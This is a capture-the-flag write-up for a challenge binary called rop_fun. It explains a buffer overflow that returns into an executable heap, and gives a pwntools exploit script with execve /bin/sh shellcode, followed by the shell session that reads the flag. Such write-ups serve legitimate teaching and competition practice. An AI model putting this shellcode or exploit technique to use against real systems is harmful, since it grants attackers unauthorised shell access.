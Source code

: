 ### Solved by superkojiman

A little statically compiled binary called rop_fun. It waits for input, copies it into a buffer, and exits. An examination of the binary revealed that it was possible to overwrite the saved return pointer when 264 byte were sent. The input it receives gets copied into the heap, again a static location, at address 0x105ef8. I knew the server it ran on had ASLR disabled, because it was running on the same server that the other pwnables ran on. But what was really interesting, was that the heap had read/write/execute permissions!

```
gdb-peda$ vmmap
Start      End        Perm      Name
0x00100000 0x00101000 r-xp      /root/ctf/rop_fun
0x00101000 0x00102000 rwxp      /root/ctf/rop_fun
0x00102000 0x00107000 rwxp      [heap]
0xb7ffd000 0xb7fff000 r--p      [vvar]
0xb7fff000 0xb8000000 r-xp      [vdso]
0xbffdf000 0xc0000000 rwxp      [stack]
```

I'm not entirely sure why it's called ROP, when there's isn't any ROP required to solve it. I just sent shellcode to the binary so that it stored it in the executable heap, and then returned to the heap. Here's my exploit: 

```python
#!/usr/bin/env python
from pwn import *
r = remote("web.lasactf.com", 23721)

# execve "/bin/sh" shellcode
sc = "jhh///sh/bin\x89\xe31\xc9j\x0bX\x99\xcd\x80"

buf = ""
buf += sc
buf += "A"*(260-len(buf))
buf += p32(0x105ef8)

print r.recv()
r.sendline(buf)
r.interactive()
```

And here I am getting a shell and the flag: 

```
# ./sploit.py
[+] Opening connection to web.lasactf.com on port 23721: Done
Hi, enjoy ropping about!
[*] Switching to interactive mode
$ id
uid=1713(rop-phun_0) gid=1714(rop-phun_0) groups=1714(rop-phun_0)
$ ls
flag.txt
rop_fun
$ cat flag.txt
s0_much_r0p_4hhhhhh
$
```

The flag was `s0_much_r0p_4hhhhhh`
